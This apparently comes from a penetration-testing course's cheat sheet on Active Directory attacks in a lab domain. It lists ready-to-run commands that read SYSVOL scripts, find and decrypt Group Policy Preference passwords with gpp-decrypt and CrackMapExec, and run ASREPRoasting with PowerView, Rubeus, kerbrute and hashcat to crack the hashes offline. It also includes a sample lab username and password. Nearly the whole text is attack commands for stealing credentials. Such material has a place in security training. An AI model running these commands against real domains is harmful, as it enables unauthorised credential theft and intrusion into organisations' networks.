 #### Discovering an Interesting Script
```PowerShell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```
Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host.

### Group Policy Preferences (GPP) Passwords

#### *View the Groups.xml file (cpassword)*

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1), the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value.

#### Decrypting the Password with gpp-decrypt
```Shell
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

#### Locating & Retrieving GPP Passwords with CrackMapExec
```Shell
crackmapexec smb -L | grep gpp
```

#### Using CrackMapExec's gpp_autologin Module
```Shell
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

### ASREPRoasting
If an attacker has `GenericWrite` or `GenericAll` permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again.

#### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
```PowerShell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

#### Retrieving AS-REP in Proper Format using Rubeus
```PowerShell
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

#### Cracking the Hash Offline with Hashcat
```cmd.exe
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

#### Retrieving the AS-REP Using Kerbrute
```Shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
